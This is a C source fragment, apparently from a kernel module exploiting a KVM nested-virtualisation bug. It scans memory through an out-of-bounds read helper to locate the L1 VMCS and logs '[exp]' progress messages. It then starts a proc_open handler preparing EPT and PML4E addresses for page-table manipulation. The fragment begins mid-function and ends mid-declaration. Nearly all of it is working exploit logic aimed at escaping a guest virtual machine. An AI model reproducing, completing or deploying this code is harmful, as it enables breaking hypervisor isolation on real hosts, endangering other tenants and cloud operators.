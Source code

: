 ```c
    // figure out where we are at in the l1's virtual address space

    unsigned long long pos_offset = 0, neg_offset = 0;
    uint64_t zero_val = 0, pos_val = 0, neg_val = 0;
    uint64_t found_val = 0, found_offset = 0;
    uint64_t i = 0;

    zero_val = read_guy(0ull);
    pr_info("vmcs12[0] = %llx\n", zero_val);
    zero_val = read_guy(1ull);
    pr_info("vmcs12[1] = %llx\n", zero_val);
    zero_val = read_guy(0ull);
    pr_info("vmcs12[0] = %llx\n", zero_val);

    for (i = 1; i < (0x4000*0x200); i += 2) {
        pos_offset = i;
        neg_offset = -i;
        // seen: 0xe8 0x28 0x68

        pos_val = read_guy(pos_offset);
        if (pos_val == vmptrld_page_pa && read_guy(pos_offset-2) == vmxon_page_pa) {
            found_val = pos_val;
            found_offset = pos_offset;
            break;
        }

        // in practice negative offset is rare/impossible?
        // commented out bc it keeps going too far and crashing
        //neg_val = read_guy(neg_offset);
        //if (neg_val == vmptrld_page_pa && read_guy(neg_offset-2) == vmxon_page_pa) {
        //    found_val = neg_val;
        //    found_offset = neg_offset;
        //    break;
        //}

        if (i > 0x1000 && i < 0x2000) {
            pr_info("vmcs12[%llx * 8] = %llx\n", pos_offset, pos_val);
            //pr_info("vmcs12[%llx * 8] = %llx\n", neg_offset, neg_val);
        }
    }
    if (found_val == 0) {
        pr_info("[exp]: L1 VMCS NOT FOUND :(\n");
        *nested_vmx_offset = 0;
        return 0;
    } else {
        pr_info("[exp]: Found vmcs in l1 at offset %lld; value: %llx\n", found_offset, found_val);
        *nested_vmx_offset = found_offset;
        return 1;
    }
}

static int proc_open(struct inode *inode, struct file *filep) {
    uint64_t l1_vmcs_offset = 0;
    uint64_t nested_vmx_offset = 0;
    uint64_t l2_vmcs_addr = 0;

    uint64_t eptp_value = 0;
    uint64_t ept_offset = 0;
    uint64_t ept_addr = 0;

    uint64_t pml4e_value = 0;
    uint64_t pml4e_offset = 0;
    uint64_t pml4e_addr = 0;
```
